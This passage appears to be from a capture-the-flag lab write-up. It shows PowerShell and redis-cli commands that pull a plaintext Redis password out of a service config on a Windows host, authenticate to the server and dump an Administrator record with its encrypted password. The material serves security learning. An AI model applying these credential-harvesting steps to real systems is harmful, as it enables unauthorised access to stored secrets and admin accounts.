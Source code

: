 

Right at the front is this part (whitespace added):



    "DataSource":"RedisServer",
    "DbServer":"localhost",
    "DbPort":6379,
    "DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"



The program is using Redis rather than local storage, and there is a
Redis server on this host!

#### Redis

I suspect I could try to decrypt that password stored in the
PortableKanban config, but looking around in the Redis directory,
there's a config there as well, and printing it (using `select-string`
to remove comments and then remove blank lines):



    PS C:\Program Files\redis> type redis.windows-service.conf | select-string -pattern "^#" -NotMatch | select-string .
    requirepass kidvscat_yes_kidvscat      
    port 6379                                     
    tcp-backlog 511                              
    timeout 0
    tcp-keepalive 0                  
    loglevel notice
    logfile "Logs/redis_log.txt"
    ...[snip]...



The first line has the password.

Now with that password, I can access Redis:



    oxdf@parrot$ redis-cli -h 10.10.10.237
    10.10.10.237:6379> auth kidvscat_yes_kidvscat
    OK
    10.10.10.237:6379> keys *
    1) "pk:ids:MetaDataClass"
    2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
    3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
    4) "pk:ids:User"



The third key there has the administrator's information, including the
encrypted password:



    10.10.10.237:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
    "{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

